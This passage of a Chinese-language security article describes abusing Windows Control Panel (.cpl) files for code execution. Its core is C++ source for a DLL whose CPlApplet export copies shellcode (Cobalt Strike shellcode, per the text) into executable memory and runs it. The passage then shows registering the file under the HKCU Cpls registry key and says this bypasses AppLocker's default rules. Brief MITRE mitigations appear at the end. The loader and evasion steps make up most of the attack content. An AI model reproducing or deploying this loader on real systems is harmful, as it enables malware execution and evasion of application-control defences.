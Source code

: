  ****  

同样我 们也可以加载CS的shellcode  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "pch.h"#include "windows.h"  
      
    extern "C" __declspec(dllexport) VOID CPlApplet(HWND hwndCPl, UINT msg, LPARAM lParam1, LPARAM lParam2){                  MessageBoxA(0, NULL, "test", MB_OK);                  /* length: 835 bytes */                  unsigned char buf[] = "shellcode";                LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);                   memcpy(Memory, buf, sizeof(buf));                   ((void(*)())Memory)();}BOOL APIENTRY DllMain( HMODULE hModule,                                         DWORD  ul_reason_for_call,                                         LPVOID lpReserved                                                       ){                switch (ul_reason_for_call)           {           case DLL_PROCESS_ATTACH:           case DLL_THREAD_ATTACH:           case DLL_THREAD_DETACH:           case DLL_PROCESS_DETACH:                   break;            }                return TRUE;}

  

将其注册到HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\Cpls

  

![](https://gitee.com/fuli009/images/raw/master/public/20210914114226.png)

  

启动control.exe，就可以执行我们的cpl

  

![](https://gitee.com/fuli009/images/raw/master/public/20210914114228.png)

#  **bypass Windows AppLocker**

AppLocker即“应用程序控制策略”，是Windows 7系统中新增加的一项安全功能。在win7以上的系统中默认都集成了该功能。

  

默认的Applocker规则集合,可以看到cpl并不在默认规则中:

  

![](https://gitee.com/fuli009/images/raw/master/public/20210914114229.png)

  

  

 **缓解措施**  

##  **M1038**

执行预防 在适当的情况下，使用应用程序控制工具（如 Windows Defender
应用程序控制、AppLocker、或软件限制策略）识别和阻止潜在的恶意和未知 .cpl 文件。

##  **M1022**

